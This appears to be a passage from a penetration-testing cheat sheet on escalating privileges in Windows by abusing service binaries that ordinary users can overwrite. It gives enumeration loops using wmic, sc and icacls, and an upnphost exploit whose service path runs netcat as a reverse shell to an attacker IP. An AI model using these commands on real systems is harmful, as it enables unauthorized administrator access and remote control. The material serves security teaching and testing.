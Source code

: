 A service running as Administrator/SYSTEM with incorrect file permissions might allow PE. You can replace the binary, restart the service and get system.

We are interested in services where permissions are: **BUILTIN\Users** with **\(F\)** or **\(C\)** or **\(M\)** for our group. More info about permissions:

```text
https://msdn.microsoft.com/en-us/library/bb727008.aspx
```

Common exploitation payloads involve: Replacing the affecting binary with a reverse shell or a command that creates a new user and adds it to the Administrator group. Replace the affected service with your payload and and restart the service running:

```text
wmic service NAMEOFSERVICE call startservice
net stop [service name] && net start [service name]
```

```text
sc start/stop serviceName
```

The following commands will print the affected services:

```text
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"
```

If wmic is not available we can use sc.exe:

```text
sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt
FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt
FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```

You can also manually check each service using cacls:

```text
cacls "C:\path\to\file.exe"
```

If you don't have access to wmic, you can do:

```text
sc qc upnphost
```

Windows XP SP1 is known to be vulnerable to PE in **upnphost**. You get Administrator with:

```text
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR_IP 1234 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
```
